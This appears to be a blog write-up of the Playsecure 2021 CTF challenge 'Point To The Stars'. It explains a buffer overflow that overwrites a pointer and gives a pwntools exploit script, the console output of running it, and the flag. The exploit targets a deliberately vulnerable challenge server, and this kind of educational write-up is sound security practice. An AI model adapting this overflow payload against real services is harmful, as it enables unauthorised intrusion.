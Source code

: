 ```yaml
---
layout: post
title: Playsecure - Point To The Stars
---
```


Can you point to the stars? Make the pointer point to the flag!

Connect to the challenge at exploitation.ps.ctf.ae:5454

<!-- more -->

### Connecting to challenge server and interacting.

![pts00](/assets/playsecure2021/pts00.png)

### Overwriting the star pointer

Sending a string of length 100 will overwrite the star pointer.

![pts01](/assets/playsecure2021/pts01.png)

### Controlling the star pointer

We enter a unique pattern of 100 length as the wish. Find the offset at which the star pointer is getting overwritten.

![pts02](/assets/playsecure2021/pts02.png)

### Approach to Exploitation

WE know the following:
- The index at which star pointer is getting overwritten
- The address at which flag is stored

WE have to do the following:
- After connecting to challenge, read the flag address
- Send payload as [JUNK 72] + [FLAG ADDRESS PACKED LITTLE ENDIAN]
- Read responses from challenge server

### Exploitaion Proof of Concept

```python
# Author: Rizal Muhammed ~ rizaru ~ UB3RSiCK
# Date: 27 March 2021
# Desc: Playsecure ctf Point to the stars exploitation solution

from pwn import *
import struct

def p(a):
	return struct.pack("I",a)

conn = remote('exploitation.ps.ctf.ae',5454)
r = conn.recvuntil("Enter your wish: ")

temp = str(r).split('\\n')

print ('\n'.join(temp))


for item in temp:
        if "The flag is stored at" in item:
                flag = item[len('The flag is stored at '):]
        if "The star pointer is pointing at" in item: 
                ptr = item[len('The star pointer is pointing at '):]


payload = b"A"*72

f = str(flag)[2:]
print (f)

pp = p64(int(f, 16))

print (repr(pp))

payload += pp

print (payload, type(payload))

conn.sendline(payload)

print (conn.recvline())
print (conn.recvline())
print (conn.recvline())
```

Running the PoC.

![pts03](/assets/playsecure2021/pts03.png)

```bash
kali@kali:~/Desktop/CTF/playsecure.ctf.ae-mar262021/exploitation/point2thestars$ python3 pt2str.py 
[+] Opening connection to exploitation.ps.ctf.ae on port 5454: Done
b'Can you reach for the stars?
----------------------
The flag is stored at 0x7fffcf6de170
The star pointer is pointing at 0x7fffcf6de1c0
Enter your wish: '
7fffcf6de170
b'p\xe1m\xcf\xff\x7f\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp\xe1m\xcf\xff\x7f\x00\x00' <class 'bytes'>
b'Granting your wish...\n'
b'The star pointer is now pointing at 0x7fffcf6de170\n'
b'Following the pointer you find: CTFAE{ReachForTheStarsAndBeyond}\n'
```

*FLAG: CTFAE{ReachForTheStarsAndBeyond}*
